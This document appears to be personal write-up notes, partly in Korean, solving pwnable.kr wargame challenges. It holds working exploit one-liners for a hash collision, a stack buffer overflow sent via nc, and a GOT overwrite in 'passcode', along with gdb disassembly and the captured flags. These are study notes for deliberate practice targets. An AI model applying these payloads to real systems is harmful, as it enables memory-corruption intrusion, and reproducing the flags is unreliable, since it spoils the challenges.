 [Pwnable]

set disassembly-flavor intel

[fd] ./fd 4660 
LETMEWIN

Flag: mommy! I think I know what a file descriptor is!! 

[collision] ./col `python -c 'print "\xc8\xce\xc5\x06" * 4 + "\xcc\xce\xc5\x06"'`

Flag: daddy! I just managed to create a hash collision :)

Hashcode: 0x21DD09EC

p/x 0x21DD09EC/5
$1 = 0x6c5cec8

p/x 0x6c5cec8 * 5
$1 = 0x21dd09e8

0x21DD09EC/5 =(0x6c5cec8 * 5 + 4)

[bof] (python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat) | nc pwnable.kr 9000

STACK 구조 
Dummy(28) + overflowme(32) + Dummy(12) + SFP(4) + RET(4) + key(4) 

[flag] x/s 0x00496628

Flag: UPX...? sounds like a delivery service :)
xxd flag
Unpacking command : upx -d flag
gdb -q flag 

[passcode] (python -c 'print "A" * 96 +"\x04\xa0\x04\x08" + "134514147"';cat) | ./passcode

Flag: Sorry mom.. I got confused about scanf usage :(
name 입력 
0x08048643 <+58>:	lea    edx,[ebp-0x70]

Passcode1 입력
0x0804857c <+24>:	mov    edx,DWORD PTR [ebp-0x10]

시작 주소 차이 값: 0x60 (= 96) 이므로 4bytes가 겹친다. 

PLT : 외부 프로시저를 연결해주는 테이블. PLT를 통해 다른 라이브러리에 있는 프로시저를 호출해 사용할 수 있다.
GOT : PLT가 참조하는 테이블. 프로시저들의 주소가 들어있다.

(gdb) disas 0x8048430
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:	jmp    DWORD PTR ds:0x804a004
   0x08048436 <+6>:	push   0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.

fflush PLT:  0x8048430

fflush GOT address: 0x804a004  

System address: 0x080485e3
